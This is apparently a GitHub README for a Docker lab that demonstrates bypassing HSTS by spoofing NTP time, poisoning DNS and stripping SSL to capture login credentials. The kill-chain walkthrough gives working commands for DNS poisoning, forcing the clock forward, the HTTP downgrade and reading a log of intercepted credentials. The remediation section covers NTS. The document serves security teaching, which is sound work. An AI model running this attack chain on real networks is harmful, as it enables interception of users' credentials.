







# ⏳ NTP-HSTS Temporal Bypass: Time-Shifting Attack Lab

**A Proof of Concept (PoC) demonstrating how Network Time Protocol (NTP) spoofing can be used to bypass HTTP Strict Transport Security (HSTS) and execute SSL Stripping.**

## ⚠️ Disclaimer

> **Educational Purpose Only.** This project is designed for security research and learning purposes to demonstrate the importance of Network Time Security (NTS). Do not use these techniques on networks you do not own or have explicit permission to test.

---

## 📖 Overview

Modern browsers use **HSTS (HTTP Strict Transport Security)** to force connections over HTTPS, preventing SSL Stripping attacks. However, HSTS relies on the system clock to determine if a security policy is valid.

This lab demonstrates that by **spoofing NTP packets** and shifting the victim's clock into the future (Post-HSTS Expiry), an attacker can:

1. Expire the HSTS policy.
2. Downgrade the connection to cleartext HTTP.
3. Intercept sensitive credentials (SSL Stripping).

### **The Architecture**

The lab runs on **Docker** with three isolated containers:

1. **Victim (Ubuntu):** A client configured with `ntpdate` (insecure NTP) and `curl`.
2. **Attacker (Alpine):** Running:
    * **Nginx:** Reverse proxy for SSL Stripping.
    * **Dnsmasq:** For DNS Spoofing.
    * **Chrony:** For NTP Spoofing.
3. **Target Server (Nginx):** A secure server enforcing HSTS (1-year duration).

    

---

## 🛠️ Installation & Setup

### 1. Prerequisites

* Docker & Docker Compose
* PowerShell (Windows) or Bash (Linux)

### 2. Build the Lab

Clone the repository and build the containers:

```bash
# 1. Clone the repository
git clone https://github.com/AntonieSoga/ntp-hsts-temporal-bypass.git
cd ntp-hsts-temporal-bypass

# 2. Generate Self-Signed Certificates
docker run --rm -v "${PWD}/webserver:/work" -w /work alpine /bin/sh -c "apk add --no-cache openssl && mkdir -p certs && openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout certs/server.key -out certs/server.crt -subj '/C=US/ST=Test/L=Test/O=Test/CN=secure.test'"

# 3. Start the Environment
docker-compose up -d --build
# Now wait a bit before proceeding to the next step, so the victim container is ready.
```



### ⚔️ The Kill Chain (Walkthrough)

#### Phase 1: The "Safe" State (Year 2026)

Initially, the network is secure. The Attacker's DNS points to the Real Server (172.20.0.10).

1. Victim establishes HSTS Trust: The victim logs in securely. The browser caches the HSTS rule.

    ```bash
    docker exec victim-client curl -v -k --resolve secure.test:443:172.20.0.10 --hsts /hsts.txt https://secure.test/login -d "username=admin&password=SafePassword"
    ```

2. Verification: The server responds with: Login Successful! (Connection is Secure via HTTPS. You are SAFE.)

    

#### Phase 2: Setting the Trap (DNS Poisoning)

The attacker manually redirects the victim's traffic to the malicious proxy.

1. Poison DNS: Redirect secure.test to the Attacker's IP (172.20.0.5).

    ```bash
    docker exec attacker-mitm sed -i 's/172.20.0.10/172.20.0.5/' /etc/dnsmasq.conf
    docker restart attacker-mitm
    ```

2. HSTS Protection Test: Even with the DNS trap set, HSTS blocks the attack because the date is still 2026.

    ```bash
    # Attempting HTTP connection...
    docker exec victim-client curl -v -k -L --hsts /hsts.txt https://secure.test/login -d "user=admin&password=ThisShouldBeSafe"
    ```

    Result: Connection Refused (Attacker cannot decrypt HTTPS).

    
    

##### Phase 3: The Temporal Attack (Year 2030)

The attacker forces the victim's clock forward to expire the HSTS policy.

1. Launch NTP Spoofing:

    ```bash
    docker exec -d attacker-mitm sh -c "while true; do date -s '2030-01-01 12:00:00'; sleep 1; done"
    ```

2. Wait for Sync: Wait until docker exec victim-client date shows the year 2030.

    

3. Execute the Exploit: Now that HSTS is expired, the browser allows the downgrade to HTTP.

    ```bash
    docker exec victim-client curl -v -k -L --hsts /hsts.txt http://secure.test/login -d "user=admin&password=ThisShouldBeSafe"
    ```

    

    

### 🕵️ Proof of Compromise

The attacker successfully intercepted the credentials in cleartext.

#### View Attacker Logs

```bash
docker exec attacker-mitm cat /var/log/nginx/creds.log
```



## 🛡️ Remediation (The Fix)

This attack is possible because NTP (Network Time Protocol) is unauthenticated. The solution is NTS (Network Time Security).

### How NTS prevents this

1. NTS uses TLS to authenticate the time server.

2. If an attacker tries to spoof the time packets, the cryptographic signature fails.

3. The client rejects the fake time update, keeping the clock at 2026.

4. HSTS remains active, and the attack fails.

## 📚 References & Further Reading

### 1. Core Standards (IETF RFCs)

* **[RFC 6797 - HTTP Strict Transport Security (HSTS)](https://tools.ietf.org/html/rfc6797)**
  Defines the web security policy mechanism. Section 12.3 explicitly lists "NTP Attacks" as a known threat vector where manipulating the clock can expire the policy.

* **[RFC 5905 - Network Time Protocol Version 4](https://tools.ietf.org/html/rfc5905)**
  The specification for NTPv4. It highlights that standard NTP (without Autokey or NTS) lacks strong cryptographic authentication, making it vulnerable to the spoofing used in this lab.

* **[RFC 3833 - Threat Analysis of the Domain Name System (DNS)](https://tools.ietf.org/html/rfc3833)**
  An official analysis of DNS vulnerabilities, specifically defining "Man-in-the-Middle" and "ID Spoofing" attacks, which serve as the foundation for the DNS poisoning phase of this lab.

* **[RFC 8915 - Network Time Security (NTS)](https://tools.ietf.org/html/rfc8915)**
  The modern remediation. It introduces TLS-based authentication for time servers to prevent the exact attack demonstrated in this project.

### 2. Foundational Security Research

* **"Bypassing HTTP Strict Transport Security" (Jose Selvi, Black Hat Europe 2014)**
  The seminal presentation that introduced the concept of "Temporal MITM" attacks. This lab is a containerized reproduction of Selvi's "Delorean" attack concept.
  * [Presentation Slides (Black Hat Archives)](https://blackhat.com/docs/eu-14/materials/eu-14-Selvi-Bypassing-HTTP-Strict-Transport-Security.pdf)

* **"New Tricks For Defeating SSL In Practice" (Moxie Marlinspike, Black Hat DC 2009)**
  The original release of **SSLstrip**. This research demonstrated that HSTS is necessary because users can be tricked into using HTTP if the initial redirection is intercepted. This lab utilizes this technique in the final exploit phase.

* **"It’s The End Of The Cache As We Know It" (Dan Kaminsky, Black Hat USA 2008)**
  While this lab uses local MITM configuration, Kaminsky's research is the foundational work on **DNS Cache Poisoning**. It demonstrated the fragility of DNS trust, which this lab exploits to redirect the victim to the proxy.

### 3. Tools & Methodologies

* **[Nginx Reverse Proxy Module](https://nginx.org/en/docs/http/ngx_http_proxy_module.html)**
  Used in this lab to perform the MITM attack. Specifically, the `proxy_pass` and `proxy_redirect` directives allow for the seamless interception and modification of traffic.
* **[Dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html)**
  The lightweight DNS forwarder used in this lab to simulate a "Poisoned DNS" environment by authoritatively resolving the target domain to the attacker's IP.
